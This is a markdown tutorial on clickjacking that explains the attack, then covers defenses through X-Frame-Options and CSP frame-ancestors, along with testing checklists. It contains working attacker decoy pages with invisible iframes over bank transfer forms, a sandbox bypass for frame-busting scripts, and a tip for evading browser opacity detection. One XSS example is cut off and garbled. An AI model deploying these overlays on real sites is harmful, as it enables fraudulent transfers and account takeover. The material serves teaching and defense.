

---

# 🧠 **What is Clickjacking ?**


> **Clickjacking** is an interface-based attack where a user is tricked into clicking on actionable content on a hidden website by clicking on what appears to be legitimate content on a decoy website. The attacker overlays invisible or opaque iframe elements over a decoy page, causing users to unknowingly interact with a different website.

### 📊 **Attack Visualization**

```
User's Perspective:
┌─────────────────────────────────────┐
│  🎁 Click Here to Win a Prize!      │  ← What user sees
│                                     │
│         [WIN NOW!]                  │  ← Decoy button
│                                     │
└─────────────────────────────────────┘


Reality (Attacker's Setup):
┌─────────────────────────────────────┐
│  Decoy Website (Visible)            │
│  Z-index: 1                         │
│                                     │
│         [WIN NOW!]                  │
└─────────────────────────────────────┘
         ↓ User clicks here
┌─────────────────────────────────────┐
│  Real Website (Invisible)           │  ← Overlaid iframe
│  Z-index: 2                         │  ← opacity: 0.0001
│  opacity: 0.0001                    │
│                                     │
│    [Delete Account]                 │  ← Real button clicked!
└─────────────────────────────────────┘

Result: User thinks they clicked "WIN NOW!"
        But actually clicked "Delete Account"
```

---

# 🎯 **How Clickjacking Works**

### **Attack Flow**

```
Step 1: Attacker creates decoy website
         ↓
Step 2: Embeds victim site in invisible iframe
         ↓
Step 3: Positions iframe over decoy button
         ↓
Step 4: User visits attacker's site
         ↓
Step 5: User sees only decoy content
         ↓
Step 6: User clicks what appears to be decoy button
         ↓
Step 7: Click actually goes to invisible iframe
         ↓
Step 8: Malicious action performed on victim site
```

---

### **Technical Mechanism**

```r
<!-- Attacker's Decoy Page -->
<!DOCTYPE html>
<html>
<head>
    <style>
        /* Invisible iframe containing victim site */
        #victim_site {
            position: absolute;
            width: 500px;
            height: 500px;
            opacity: 0.0001;      /* Nearly invisible */
            z-index: 2;           /* On top */
            top: 50px;
            left: 100px;
        }
        
        /* Visible decoy content */
        #decoy_content {
            position: absolute;
            width: 500px;
            height: 500px;
            z-index: 1;           /* Behind iframe */
            top: 50px;
            left: 100px;
        }
        
        /* Decoy button positioned under iframe's real button */
        #decoy_button {
            position: absolute;
            top: 200px;           /* Aligns with iframe button */
            left: 180px;          /* Aligns with iframe button */
        }
    </style>
</head>
<body>
    <!-- Decoy content (what user sees) -->
    <div id="decoy_content">
        <h1>🎁 Congratulations!</h1>
        <p>You've won a prize!</p>
        <button id="decoy_button">CLAIM YOUR PRIZE</button>
    </div>
    
    <!-- Victim site (invisible overlay) -->
    <iframe id="victim_site" 
            src="https://vulnerable-bank.com/transfer">
    </iframe>
</body>
</html>
```

**What happens -**

```
1. User sees: "CLAIM YOUR PRIZE" button
2. User clicks: The visible decoy button
3. Reality: Click goes through to iframe
4. Result: Performs action on vulnerable-bank.com
   (e.g., "Confirm Transfer" button)
```

---

# 🔍 **Key Concepts**

### **CSS Properties Used**

```r
/* Essential properties for clickjacking */

opacity: 0.0001;
/* Makes iframe nearly invisible
   Why not 0? Some browsers detect opacity: 0
   0.0001 is invisible to human eye but bypasses detection */

z-index: 2;
/* Stacking order - higher number = on top
   Iframe must be on top to receive clicks */

position: absolute;
/* Allows precise positioning
   Needed to overlay iframe exactly over decoy */

width/height: 500px;
/* Size of iframe
   Must match decoy dimensions for proper overlay */

top/left: 50px;
/* Positioning coordinates
   Fine-tuned to align real button with decoy button */
```

### **Why Clickjacking Works**

```
Browser Behavior -
├── Clicks go to topmost visible element
├── Determined by z-index value
├── Even if element is nearly transparent
└── Browser doesn't know click was "meant" for decoy

User Perception -
├── Sees only decoy content
├── Believes they're clicking decoy button
├── No visual indication of iframe
└── No way to know about overlay

Technical Reality -
├── Iframe is on top (z-index: 2)
├── Click goes to iframe content
├── Victim site receives legitimate click
└── Action performed with user's session
```

---

# 🎯 **Attack Scenarios**

### **Scenario 1 - Account Deletion**

```
Decoy: "Win $1000!"
Reality: Delete account button

Attack Setup:
┌─────────────────────────────────┐
│ 💰 Click to Win $1000!          │
│                                 │
│      [CLAIM NOW]  ← Decoy       │
└─────────────────────────────────┘
         ↓
┌─────────────────────────────────┐
│ vulnerable-site.com/account     │
│ (Invisible iframe)              │
│                                 │
│  [Delete Account] ← Real button │
└─────────────────────────────────┘

Result: User's account deleted
```

---

### **Scenario 2 - Unauthorized Money Transfer**

```
Decoy: "Download Free Software"
Reality: Confirm bank transfer

Attack Setup:
┌─────────────────────────────────┐
│ 📥 Free Premium Software        │
│                                 │
│     [DOWNLOAD]  ← Decoy         │
└─────────────────────────────────┘
         ↓
┌─────────────────────────────────┐
│ bank.com/transfer               │
│ (Invisible iframe)              │
│ Transfer $5000 to attacker      │
│                                 │
│  [Confirm Transfer] ← Real      │
└─────────────────────────────────┘

Result: Money transferred to attacker
```

---

### **Scenario 3 - Social Media Spam**

```
Decoy: "See Who Viewed Your Profile"
Reality: Like/Share malicious content

Attack Setup:
┌─────────────────────────────────┐
│ 👀 See Your Profile Visitors    │
│                                 │
│      [VIEW NOW]  ← Decoy        │
└─────────────────────────────────┘
         ↓
┌─────────────────────────────────┐
│ facebook.com/malicious-page     │
│ (Invisible iframe)              │
│                                 │
│     [Like]  ← Real button       │
└─────────────────────────────────┘

Result: User likes malicious page
        Spam spreads to their friends
```

---

### **Scenario 4 - Webcam/Microphone Permission**

```
Decoy: "Play Video"
Reality: Grant webcam access

Attack Setup:
┌─────────────────────────────────┐
│ 🎬 Play Funny Video             │
│                                 │
│       [PLAY]  ← Decoy           │
└─────────────────────────────────┘
         ↓
┌─────────────────────────────────┐
│ Browser Permission Dialog       │
│ (Invisible iframe)              │
│                                 │
│  [Allow] ← Real button          │
└─────────────────────────────────┘

Result: Attacker gains webcam access
```

---

# 🔧 **Advanced Techniques**

### **1. Clickjacking with Prefilled Form Input**

```
Some sites allow GET parameters to prefill forms:

Vulnerable URL:
https://bank.com/transfer?to=attacker&amount=5000

Attack:
<iframe src="https://bank.com/transfer?to=attacker&amount=5000"></iframe>

Result:
├── Form is pre-filled with attacker's values
├── User only needs to click "Submit"
└── User sees decoy, clicks, submits attacker's form
```

**Example -**

```r
<!-- Attacker's page -->
<style>
#victim {
    position: absolute;
    opacity: 0.0001;
    z-index: 2;
}
</style>

<!-- Prefilled transfer form -->
<iframe id="victim" 
        src="https://bank.com/transfer?
             to=attacker_account&
             amount=10000&
             memo=payment">
</iframe>

<!-- Decoy -->
<div style="position:absolute; z-index:1;">
    <h1>Claim Your Refund!</h1>
    <button>SUBMIT</button>  ← Aligns with iframe's Submit button
</div>
```

---

### **2. Multi-Step Clickjacking**

```js
Complex actions requiring multiple clicks:

Example: Add item to cart → Checkout → Confirm purchase

Attack requires multiple iframes or user actions:

Step 1: First click adds item to cart
┌───────────────────────────────────┐
│ [Click Here] → Iframe: [Add Cart] │
└───────────────────────────────────┘

Step 2: Second click goes to checkout
┌───────────────────────────────────┐
│ [Click Here] → Iframe: [Checkout] │
└───────────────────────────────────┘

Step 3: Third click confirms purchase
┌───────────────────────────────────┐
│ [Click Here] → Iframe: [Confirm]  │
└───────────────────────────────────┘

Requires:
└── Precise timing and positioning
    └── Multiple decoy buttons
        └── User must click each in sequence
```

---

### **3. Clickjacking + DOM XSS**

```js
Combine clickjacking with XSS for more damage:

Vulnerable page with DOM XSS:
https://site.com/search?q=<user_input>

Attack:
1. Craft XSS payload in URL
2. Load vulnerable page in iframe
3. Trick user into clicking search button

Example:
<iframe src="https://site.com/search?
             q=">
</iframe>

Result:
├── User clicks what looks like benign button
├── Actually triggers search on XSS payload
└── XSS executes in context of vulnerable site
```

---

### **4. Sandbox Attribute Bypass**

```js
Some sites use frame-busting JavaScript:

Frame-buster code:
if (window.top !== window.self) {
    window.top.location = window.self.location;
}

Attacker's bypass:
<iframe sandbox="allow-forms" 
        src="https://victim.com">
</iframe>

What sandbox does:
├── allow-forms: Permits form submission
├── allow-scripts: Permits JavaScript
├── Omit allow-top-navigation: Blocks frame-busting!

Result:
└── Frame-buster can't redirect top window
    └── Clickjacking attack succeeds
```

---

## 🔍 **Best Practices**

### **For Developers**

```
1. Always set frame protection headers
   ├── Use CSP frame-ancestors (modern)
   ├── Or X-Frame-Options (fallback)
   └── Apply to ALL pages

2. Use both X-Frame-Options AND CSP
   ├── Defense in depth
   ├── Covers older browsers
   └── Maximum compatibility

3. Set appropriate CSP directives
   ├── frame-ancestors 'none' for sensitive pages
   ├── frame-ancestors 'self' for internal framing
   └── Specific domains for trusted partners

4. Don't rely on JavaScript frame-busting
   ├── Easily bypassed
   ├── Use server-side headers instead
   └── JavaScript as additional layer only

5. Test your protection
   ├── Try to frame your site
   ├── Check headers in browser tools
   └── Use security testing tools
```

---

### **For Security Testers**

```
Testing Checklist:

□ Check for X-Frame-Options header
  └── Absent = vulnerable
  └── ALLOW-FROM = potentially vulnerable

□ Check for CSP frame-ancestors directive
  └── Absent = vulnerable
  └── 'none' or 'self' = protected

□ Test actual framing
  └── Create test page with iframe
  └── Try to load target site
  └── Check if it loads or blocks

□ Check for frame-busting scripts
  └── View page source
  └── Test with sandbox attribute bypass

□ Test sensitive actions
  └── Account deletion
  └── Password changes
  └── Fund transfers
  └── Permission grants

□ Consider attack feasibility
  └── How likely is user to click?
  └── What's the impact?
  └── Report based on severity
```

---

## 🎓 **Key Differences vs Other Attacks**

### **Clickjacking vs CSRF**

```
CSRF (Cross-Site Request Forgery):
├── Entire request forged by attacker
├── User doesn't click anything
├── Request sent automatically
├── Defended with CSRF tokens
└── User completely unaware

Clickjacking:
├── User actually clicks
├── Request is legitimate user action
├── Uses user's active session
├── CSRF tokens don't help (user performed action)
└── User thinks they clicked something else

Key Difference:
└── CSRF: Request without user action
    Clickjacking: User action on wrong target
```

---

### **Clickjacking vs Phishing**

```
Phishing:
├── Fake website that looks real
├── User enters credentials
├── Attacker captures credentials
├── User knows they visited the site
└── Defended with user awareness

Clickjacking:
├── Real website (in iframe)
├── User performs real action
├── Uses existing session
├── User doesn't know real site involved
└── Defended with frame protection

Key Difference:
└── Phishing: Fake site steals credentials
    Clickjacking: Real site, hidden interaction
```

---

## 🔬 **Technical Deep Dive**

### **How Browsers Handle Iframes**

```
Browser Rendering Process:

1. Parse HTML and build DOM
   └── Identify iframe elements

2. Create iframe context
   └── Separate browsing context
   └── Own window object
   └── Isolated JavaScript scope

3. Load iframe content
   └── HTTP request to src URL
   └── Render inside iframe dimensions

4. Apply CSS styling
   └── opacity, z-index, position
   └── Layering iframes and content

5. Handle click events
   └── Determine topmost element at click point
   └── Based on z-index and stacking context
   └── Route event to that element

6. Check frame protection
   └── X-Frame-Options header
   └── CSP frame-ancestors directive
   └── Block if protection present
```

---

### **Opacity and Browser Detection**

```
Why opacity 0.0001 instead of 0?

Some browsers detect suspicious iframes:

Chrome (v76+):
├── Detects opacity: 0 iframes
├── May warn user
└── 0.0001 bypasses detection

Firefox:
├── No automatic detection
└── 0 or 0.0001 both work

Best practice for attackers:
└── Use 0.0001 or 0.00001
    └── Invisible to human eye
    └── Bypasses most detection

Best practice for defenders:
└── Don't rely on browser detection
    └── Use X-Frame-Options or CSP
```

---

### **Z-Index Stacking Context**

```
How z-index determines click target:

Stacking Order (lowest to highest):
1. Background
2. z-index: 0 (default)
3. z-index: 1
4. z-index: 2
5. ...higher values...

Example:
<div style="z-index: 1">Decoy</div>
<iframe style="z-index: 2">Victim</iframe>

Click goes to: Iframe (higher z-index)

Important:
├── z-index only works with positioned elements
├── position: absolute/relative/fixed/sticky
└── Elements must overlap for z-index to matter
```

---

## 🎯 **Real-World Examples**

### **Example 1: Facebook "Like" Clickjacking (2010)**

```
Attack:
├── Attacker creates page: "See Who Viewed Your Profile"
├── Overlays invisible Facebook iframe with "Like" button
├── User clicks to see profile visitors
└── Actually clicks "Like" on attacker's page

Impact:
├── Attacker's page gets thousands of likes
├── Spreads to victim's friends
└── Creates viral spam campaign

Defense:
└── Facebook implemented X-Frame-Options: DENY
    └── Prevented external framing
```

---

### **Example 2: Twitter "Follow" Clickjacking (2009)**

```
Attack:
├── Decoy: "Download Video Player"
├── Reality: Follow attacker's Twitter account
└── Spam spreads through followers

Impact:
├── Attacker gains followers
├── Can send malicious DMs
└── Builds botnet of accounts

Defense:
└── Twitter implemented frame protection
    └── X-Frame-Options on sensitive pages
```

---

### **Example 3: Adobe Flash Settings (Historical)**

```
Attack:
├── Decoy: "Play Video"
├── Reality: Enable Flash webcam/microphone
└── Attacker gains media access

Impact:
├── Webcam activated without knowledge
├── Privacy violation
└── Potential recording/spying

Defense:
└── Flash deprecated (2020)
    └── Modern browsers require explicit permissions
    └── Can't be clickjacked as easily
```

---

## 📚 **Tools and Resources**

### **Testing Tools**

```
Burp Suite Clickbandit:
├── Automated clickjacking PoC generator
├── Records your clicks on frameable page
├── Generates HTML overlay automatically
└── Saves time vs manual PoC creation

Manual Testing:
├── Create simple HTML page
├── Embed target in iframe
├── Adjust CSS for overlay
└── Test if it loads

Browser DevTools:
├── Check response headers
├── Look for X-Frame-Options
├── Inspect CSP directives
└── Test frame loading
```

---

### **Detection Checklist**

```
Vulnerability Assessment -

1. Check HTTP Headers
   □ X-Frame-Options present?
   □ CSP frame-ancestors set?
   □ Both missing = vulnerable

2. Test Framing
   □ Create test iframe
   □ Try to load target page
   □ Loads successfully = vulnerable

3. Identify Sensitive Actions
   □ Account deletion
   □ Password change
   □ Fund transfers
   □ Permission grants
   □ OAuth approvals

4. Assess Impact
   □ What action can be performed?
   □ How likely is user to click?
   □ What's the damage?
   
5. Generate PoC
   □ Use Clickbandit for quick PoC
   □ Or create manual HTML overlay
   □ Demonstrate feasibility

6. Report Findings
   □ Severity: Based on action impact
   □ Include working PoC
   □ Recommend CSP or X-Frame-Options
```

---

## 🎓 **Key Takeaways**

### **For Attackers (Ethical Testing)**

```
1. Clickjacking exploits visual deception
   └── User sees decoy, clicks real button

2. Requires precise CSS positioning
   └── Overlay must align perfectly

3. Most effective with social engineering
   └── Compelling decoy increases success

4. Can be combined with other attacks
   └── XSS, CSRF, social engineering

5. Look for missing frame protection
   └── No X-Frame-Options or CSP = vulnerable
```

---

### **For Defenders**

```
1. Always implement frame protection
   ├── Use CSP frame-ancestors (modern)
   └── Plus X-Frame-Options (compatibility)

2. Apply to ALL pages, especially:
   ├── Authentication pages
   ├── Account management
   ├── Payment/transfer pages
   └── Permission grant pages

3. Use 'none' or 'self' for most cases
   └── Only allow specific domains if needed

4. Don't trust JavaScript frame-busting
   └── Easy to bypass, use headers

5. Test regularly
   └── Verify headers present
   └── Try to frame your own site
```

---

## 📖 **Additional Resources**

```
Standards:
├── OWASP: Clickjacking Defense Cheat Sheet
├── RFC 7034: X-Frame-Options
└── W3C: Content Security Policy

Tools:
├── Burp Suite Clickbandit
├── OWASP ZAP
└── Browser DevTools

Learning:
├── PortSwigger Web Security Academy
├── OWASP Testing Guide
└── Bug Bounty Programs
```

---

## 🔐 **Quick Reference**

### **Vulnerable Configuration**

```
❌ No protection:
(No X-Frame-Options header)
(No CSP frame-ancestors)
└── Site can be framed by anyone
```

### **Secure Configuration**

```
✅ Best protection:
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none';
└── Site cannot be framed

✅ Allow same-origin:
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self';
└── Site can be framed by same domain only

✅ Allow specific domain:
X-Frame-Options: ALLOW-FROM https://trusted.com
Content-Security-Policy: frame-ancestors https://trusted.com;
└── Site can be framed by trusted domain
```

---

**Remember:** Clickjacking is all about visual deception - users interact with real content they can't see. Proper frame protection headers are the only reliable defense!

---
---

## 🛡️ **Defenses Against Clickjacking**

### **Defense 1 - X-Frame-Options Header**

```r
Server-side protection using HTTP header:

Deny all framing:
X-Frame-Options: DENY
└── Page cannot be framed by anyone
    └── Most secure option

Allow same-origin framing only:
X-Frame-Options: SAMEORIGIN
└── Page can only be framed by same domain
    └── Prevents external attackers

Allow specific origin:
X-Frame-Options: ALLOW-FROM https://trusted.com
└── Page can be framed by specific domain
    └── Note: Not supported in all browsers
```

**Implementation -**

```r
Apache:
Header always set X-Frame-Options "DENY"

Nginx:
add_header X-Frame-Options "DENY" always;

PHP:
header('X-Frame-Options: DENY');

Node.js/Express:
app.use((req, res, next) => {
    res.setHeader('X-Frame-Options', 'DENY');
    next();
});
```

**Browser Support -**

```
✅ Chrome/Edge: Full support
✅ Firefox: Full support
✅ Safari: Full support
⚠️  ALLOW-FROM: Limited support (deprecated)
```

---

### **Defense 2 - Content Security Policy (CSP)**

```r
Modern alternative to X-Frame-Options:

Deny all framing:
Content-Security-Policy: frame-ancestors 'none';
└── Equivalent to X-Frame-Options: DENY

Allow same-origin framing:
Content-Security-Policy: frame-ancestors 'self';
└── Equivalent to X-Frame-Options: SAMEORIGIN

Allow specific origins:
Content-Security-Policy: frame-ancestors https://trusted.com;
└── More flexible than ALLOW-FROM

Allow multiple origins:
Content-Security-Policy: frame-ancestors 'self' https://trusted.com https://partner.com;
```

**Advantages over X-Frame-Options:**

```
✅ More flexible (multiple domains)
✅ Better browser support for multiple origins
✅ Part of comprehensive CSP
✅ Recommended modern approach
```

**Implementation -**

```r
Apache:
Header always set Content-Security-Policy "frame-ancestors 'self';"

Nginx:
add_header Content-Security-Policy "frame-ancestors 'self';" always;

PHP:
header("Content-Security-Policy: frame-ancestors 'self';");

Node.js/Express:
app.use((req, res, next) => {
    res.setHeader('Content-Security-Policy', "frame-ancestors 'self';");
    next();
});
```

---

### **Defense 3 - JavaScript Frame-Busting (Legacy)**

```r
// ❌ OLD METHOD - Not recommended, easily bypassed

// Basic frame buster
if (window.top !== window.self) {
    window.top.location = window.self.location;
}

// Enhanced frame buster
if (window.top !== window.self) {
    // Try to break out
    window.top.location = window.self.location;
    
    // If still framed, hide content
    document.body.style.display = 'none';
    
    // Alert user
    alert('This page cannot be framed for security reasons.');
}

// Why frame-busters fail:
// 1. Can be blocked by sandbox attribute
// 2. JavaScript can be disabled
// 3. Can be overridden with 204 No Content
// 4. Many other bypasses exist

// ✅ MODERN APPROACH: Use X-Frame-Options or CSP instead!
```

---

### **Defense Comparison**

```
╔════════════════════════════════════════════════════════╗
║                  DEFENSE COMPARISON                    ║
╠════════════════════════════════════════════════════════╣
║                                                        ║
║  X-Frame-Options:                                      ║
║  ✅ Wide browser support                               ║
║  ✅ Easy to implement                                  ║
║  ✅ Effective protection                               ║
║  ⚠️  ALLOW-FROM deprecated                             ║
║  ⚠️  Can't specify multiple domains easily             ║
║                                                        ║
║  Security: 🟢 HIGH                                     ║
║                                                        ║
╠════════════════════════════════════════════════════════╣
║                                                        ║
║  Content Security Policy (frame-ancestors):            ║
║  ✅ Modern standard                                    ║
║  ✅ Flexible (multiple domains)                        ║
║  ✅ Part of comprehensive CSP                          ║
║  ✅ Better than X-Frame-Options                        ║
║  ⚠️  Requires CSP knowledge                            ║
║                                                        ║
║  Security: 🟢 HIGH (Recommended)                       ║
║                                                        ║
╠════════════════════════════════════════════════════════╣
║                                                        ║
║  JavaScript Frame-Busting:                             ║
║  ❌ Easily bypassed                                    ║
║  ❌ Depends on JavaScript enabled                      ║
║  ❌ Can be defeated with sandbox                       ║
║  ❌ Not recommended                                    ║
║                                                        ║
║  Security: 🔴 LOW (Legacy only)                        ║
║                                                        ║
╚════════════════════════════════════════════════════════╝
```

---
